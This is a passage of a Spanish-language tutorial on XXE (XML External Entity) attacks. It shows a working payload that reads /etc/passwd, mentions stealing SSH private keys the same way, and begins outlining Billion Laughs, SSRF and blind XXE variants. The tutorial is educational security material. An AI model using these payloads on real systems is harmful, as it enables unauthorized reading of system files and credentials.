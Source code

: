 Entonces `si podemos subir un archivo` como este y vemos que la web `interpreta la estructura del XML` y muestra los campos que le hemos indicado. Esto es crítico porque podemos empezar a pensar en un ataque XXE.

Claro, al igual que nos muestra lo que hemos puesto, `también podemos poner que nos muestre archivos internos del sistema`, entonces vamos a modificar el código anteriormente escrito para que nos muestre el `/etc/passwd`:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
	<!ELEMENT foo ANY >
	<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<elements>
	<Author>&xxe;</Author>                               #ahora aqui hacemos referencia a lo anterior
	<Subject>Esto es una prueba</Subject>
	<Content>Contenido</Content>
</elements>
```

Claro, de esta forma también podemos ver otros archivos como puede ser 	/home/user/.ssh/id_rsa o lo que queramos.

## COMO EXPLOTARLO
Hay varios ataques distintos, voy a explicar tres:

```
· Billion Laughs Attack
· XXE SSRF Attack
· Blind XXE Vulnerability
```

### Billion Laughs Attack

Si una aplicación web `acepta XML como input` y nos `devuelve un output`, una petición se veria algo parecido a esto:

```
|                Request                |
|---------------------------------------|
| POST http://example.com/xml HTTP/1.1  |
| <mytype>                              |
|   Hello and welcome to my website!    |
| </mytype>                             |
```

```
|               Response               |
|--------------------------------------|
| HTTP/1.0 200 OK                      |
|                                      |
| Hello and welcome to my website!     |

```
